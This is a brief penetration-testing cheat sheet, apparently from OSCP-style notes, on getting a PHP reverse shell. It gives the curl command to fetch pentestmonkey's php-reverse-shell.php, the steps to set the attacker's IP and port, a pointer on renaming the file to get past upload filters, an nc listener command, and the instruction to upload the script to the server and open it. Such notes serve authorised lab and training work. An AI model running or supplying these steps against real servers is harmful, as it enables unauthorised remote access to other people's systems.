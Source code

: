 # PHP reverse shell

First, download the script:

```bash
curl -LO https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Change `ip` and `port` in the script (use `ip addr` for ip, `port` can be anything that's available):

```bash
nano php-reverse-shell.php
```

Also probably rename, see [Bypass File Upload Filtering](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html).

Next, start `nc`:

```bash
nc -lvnp <PORT>
```

Finally, upload the script to the server, and open the newly created link.
